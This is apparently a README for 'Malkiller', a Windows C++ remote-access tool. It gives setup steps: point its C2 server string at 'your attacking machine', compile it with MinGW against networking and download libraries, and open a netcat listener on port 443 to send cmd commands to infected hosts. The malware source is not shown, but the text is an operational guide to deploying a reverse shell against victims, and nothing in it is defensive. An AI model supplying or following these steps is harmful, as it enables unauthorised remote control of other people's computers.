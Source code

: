 ## Malkiller

- Change the C2 Server IP: In the code, find the line std::string c2Server = "192.168.1.100"; and change the IP address to the IP of your attacking machine. 

- Compile it using a command like this (if using MinGW-g++):

```bash
g++ -o malkiller.exe malkiller.cpp -lws2_32 -liphlpapi -lnetapi32 -lshlwapi -lwininet -lurlmon -static
```

- On attacking machine to send the cmd commands:
```bash
nc -nlvp 443
```